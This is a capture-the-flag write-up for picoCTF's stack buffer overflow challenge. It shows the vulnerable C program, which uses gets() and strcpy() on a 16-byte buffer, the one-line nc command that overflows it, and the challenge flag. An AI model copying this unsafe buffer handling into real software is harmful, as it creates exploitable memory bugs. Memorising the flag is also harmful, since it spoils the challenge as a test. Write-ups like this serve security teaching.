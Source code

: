 ### Description

Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](./vuln). You can view source [here](./vuln.c). And connect with it using: `nc saturn.picoctf.net 55984`

### Approach

Check the type of the two files

![image](https://github.com/Harsha-creates/PicoCTF/assets/68886253/da699fb6-a295-4e5c-a739-cc2f80619017)

open the source code: `cat vuln.c`

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
 we can see that the sigsegv_handler() program is what we are going to need to trigger to return the flag.

 ```C

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);

 char buf1[100];
  gets(buf1); 
  vuln(buf1);
```

Buf2 is defined as a char with a size of 16, from this I decided to simply see if we could overrun this buffer by putting any input that was longer than 16 characters in the input field when running the program.

Give input:
```
echo "gggggggggggggggggggggggggggggggggggggggggg" | nc saturn.picoctf.net 55984

```

>`Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

**Flag:** picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
